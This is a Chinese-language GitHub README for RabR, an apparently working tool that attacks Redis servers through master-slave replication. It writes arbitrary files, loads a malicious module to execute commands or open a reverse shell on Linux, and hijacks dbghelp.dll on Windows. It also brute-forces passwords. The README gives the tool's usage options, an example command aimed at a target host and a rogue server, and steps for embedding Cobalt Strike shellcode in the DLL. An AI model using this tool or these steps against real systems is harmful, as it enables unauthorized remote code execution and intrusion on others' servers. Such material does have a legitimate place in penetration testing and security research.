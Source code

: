 # RabR 

Redis-Attack By Replication (通过主从复制攻击Redis)   

- 攻击Linux下的Redis，可执行命令和反弹shell
- 攻击Window x64下的Redis，可...执行calc  
本工具基于**Ridter**师傅的[**redis-rce**](https://github.com/Ridter/redis-rce) 进行修改。  

## 声明
本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。

## 原理
Redis从2.8开始，就支持主从复制功能。     

这个功能存在脆弱的地方：主从复制中，Redis从机会将Redis主机的数据库文件同步到本地的数据库文件，并检验其是否为RDP格式，但如果不是RDP格式也不会删除。   
所以我们只要将主从复制传输中的数据库文件，替换为我们自己的数据，就可以将我们自己的数据原封不动的写入到redis从机的数据库文件中，而这个数据库文件的名字也可以通过Redis从机进行修改。  
**这就意味着我们可以将任意文件写入到目标Redis权限下的任意路径**。    

## 特点
- 本工具利用这个Redis的脆弱性，对Linux下的redis进行module攻击，对Windows下的Redis进行dll劫持攻击。  
- 本工具默认使用的恶意模块：exp.so，源码来自于：[**RedisModules-ExecuteCommand** ](https://github.com/puckiestyle/RedisModules-ExecuteCommand ), 该模块实现了执行单条命令和反弹shell的功能，你也可以编写自己的模块。  
- 本工具默认使用的恶意dll：dbghelp.dll，是通过 [**DLLHijacker** ](https://github.com/kiwings/DLLHijacker )+ **win7x64下的dbghelp.dll** 编译生成的，该dll会执行calc，你可以编译自己的dbghelp.dll。
- 本工具有爆破功能，密码字典位于pwd.txt中。  
- 本工具在攻击前会备份目标Redis的数据，在攻击结束后会进行恢复，使用的工具为[**redis-dump-go**](https://github.com/yannh/redis-dump-go )。默认是开启的，可以关闭。  

## 结构
```  
│  dbghelp.dll 默认用于劫持Redis的dll
│  exp.so 默认导入的Redis模块
│  pwd.txt 爆破字典
│  rd.exe 用于保存Redis数据的程序
│  README.md
│  redis-attack.py 攻击主程序
```

## 用法
```
usage: python redis-attack.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-wf WINFILE] [-lf LINUXFILE] [-a AUTH] [--brute] [-v]
Example: python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 --brute

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 16379
  -wf WINFILE, --winfile WINFILE
                        Dll Used to hijack redis, default dbghelp.dll
  -lf LINUXFILE, --linuxfile LINUXFILE
                        RedisModules to load, default exp.so
  -a AUTH, --auth AUTH  redis password
  --brute               If redis needs to verify the password, perform a brute force attack base in pwd.txt
  -i, --idontcare       don't care about the data on the target redis
  -v, --verbose         show more info
```

![image-20210703203005715](phpto/RabR/image-20210703203005715.png)

![image-20210703202827200](phpto/RabR/image-20210703202827200.png)

## 进一步

攻击Windows x64下的redis：  
1）[DLLHijacker](https://github.com/kiwings/DLLHijacker) +目标redis的系统版本的dbghelp.dll， 生成vs项目。  
2）vs项目修改：   

```
1、将dllmain.cpp中 shellcode_calc[] 的值替换为cs生成的shellcode 
2、为了避免只能劫持1次dll，在dllmain.cpp的 Hijack();后增加 FreeLibrary(hModule);
3、修改活动解决方案为Realease，x64
4、修改项目属性的sdk版本、平台工具集为本地vs可用的值
```
3）编译生成dll，复制到本工具目录下。    
4）使用本工具执行攻击 。  


## 感谢
本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！！非常感谢某群大佬分享的关键词(很重要)！！非常感谢！！  
帮助到我的文章与工具包括但不限于：  
 [Redis on Windows 出网利用探索](https://xz.aliyun.com/t/8153)  
 [Redis On Windows -- Dll Hijack](https://jkme.github.io/redis-on-windows-dll-hijack.html)  
 [DLLHijacker](https://github.com/kiwings/DLLHijacker)  
 [redis-rce](https://github.com/Ridter/redis-rce)  
 [RedisWriteFile](https://github.com/r35tart/RedisWriteFile)  
 [redis-dump-go](https://github.com/yannh/redis-dump-go)  

反馈
Mail：h.vi@qq.com  
或者[issue](https://github.com/0671/RabR/issues/new)、PR
